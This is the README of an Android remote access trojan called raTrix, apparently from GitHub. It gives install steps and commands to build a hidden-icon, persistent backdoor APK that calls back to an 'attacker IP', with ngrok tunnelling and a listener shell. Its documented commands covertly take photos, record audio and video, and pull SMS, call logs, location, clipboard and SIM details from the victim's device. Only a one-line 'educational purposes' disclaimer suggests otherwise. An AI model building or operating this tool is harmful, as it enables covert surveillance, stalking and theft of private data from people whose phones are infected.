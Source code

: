 <img src="https://github.com/MrpasswordTz/raTrix/blob/main/images/2.jpg" alt= 'ratrix picture' >

# raTrix 🐀 
raTrix is a powerful Android administration tool designed for Linux systems. It utilizes Python on the client-side and Java on the server-side to provide a robust and efficient management solution.

# FEATURE FOR raTrix
<ul>
  <li>light apk</li>
  <li>shell and build mode</li>
  <li>it run background 24hrs</li>
  <li>it show device info,MAC Adress, device ip, simcard info</li>
  <li>Auto start backdoor</li>
  <li>sms viewing and callLogs viewing</li>
<li>all port-forwading</li>
  <li>microphone checking</li>
  <li>camera checking</li>
  <li>full persistent</li>
  <li>Easy To use</li>
  <li>no icon</li>
</ul>

 # installation on termux
```
pkg update
pkg upgrade
pkg install git
pkg install python python2 python3
pkg install openjdk-17
pkg install aapt
git clone https://github.com/MrpasswordTz/raTrix.git
cd raTrix
pip install -r requirements.txt 
```

# usages building mode
```
python3 raTrix.py --build [models]
modules:
 -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

EXample: python3 raTrix.py --build -i 192.168.16.216 -p 443 -o sudo.apk
```

# Usages SHELL mode
```
Usage:
  python3 raTrix.py --shell [modules]
  modules:
    -i, --ip                Listner IP address
    -p, --port              Listner port number

Example: python3 raTrix.py --shell -i 192.168.16.216 -p 443
```
# Commands in shell mode
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
# Additional information in ngrok conf
```
Usage:
  python3 raTrix.py --build --ngrok [module]
  module:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

# Examples 
<b>in buliding mode(generating apk)</b>
```
python3 raTrix.py -i 192.169.120.34 -p 8080 -o sudo.apk
```

<b>in shell mode (listening)</b>
```
python3 raTrix.py --shell -i 192.169.120.34 -p 8080
```

# Disclaimer
This tool is only for educational purposes, i will not be responsible for any Damage

<h1 style='color:red;'>TOOL IS UNDER CONSTRUCTION</h1>
